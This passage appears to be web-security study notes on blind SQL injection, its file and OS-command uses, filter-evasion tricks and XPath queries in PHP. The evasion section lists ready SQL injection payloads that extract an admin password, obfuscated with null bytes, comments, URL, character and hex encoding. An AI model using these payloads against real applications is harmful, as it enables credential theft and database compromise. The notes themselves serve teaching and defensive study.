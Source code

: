 It is the same as the boolean based, but instead of having two different web responses the difference is the response time (less trustworthy)

### Other options
SQL vulnerabilities can be be used for other attacks than directly against the database.

#### Reading local files

#### Writing local files
With the SELECT INTO OUTFILE command the attacker can write local files.

#### Executing OS commands
In some cases the db engine has the right to execute OS level commands.

### SQL injection filter evasion techniques

- White space or  'a'='a'
- Null bytes %00 UNION SELECT password FROM Users WHERE username='admin'--
- SQK Comments
    '/**/UNION/\*\*/SELECT/\*\*/password/\*\*/FROM/\*\*/Users/\*\*/WHERE/\*\*/name/\*\*/LIKE/\*\*/'admin'--
- URL encoding
    %27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE
%20name%3D%27admin%27--

- Character encoding
    ' UNION SELECT password FROM Users WHERE
name=char(114,111,111,116)--

- String Concatination EXEC('SEL' + 'ECT 1')

- Hex Encoding SELECT user FROM users WHERE name = unhex('726F6F74')

## Xpath injection
Instead of storing datasets in databases, data can be stored in xml format.

### Xpath query with PHP

Xpath can be used to make a query, e.g finding the full name of the user whose username is john and the password is imagine:

```php
$xml->xpath("/users/user[name='john' and password='imagine']/fullname")
```

Finding the first user in the database
```php
$xml->xpath("/users/user[position()=1]/fullname")
```

Finding the penultimate user
```php
$xml->xpath("/users/user[last()-1]/fullname")
```
